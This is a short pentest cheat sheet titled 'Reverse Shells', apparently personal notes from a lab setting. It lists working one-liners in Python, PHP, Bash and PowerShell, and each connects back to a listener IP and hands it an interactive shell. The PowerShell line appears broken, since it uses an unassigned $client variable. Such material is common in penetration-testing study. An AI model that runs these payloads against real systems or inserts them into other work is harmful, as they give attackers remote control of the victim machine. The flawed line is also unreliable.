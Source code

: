 ```yaml
---
title: Reverse Shells
---
```


I would like to get more data from Pentest Mokey here. Seems like that site is not reliable. 


#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP
```php
php -r '$sock=fsockopen("10.10.14.46",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### BASH
```bash
bash -i >& /dev/tcp/10.10.14.140/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

#### POWERSHELL
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
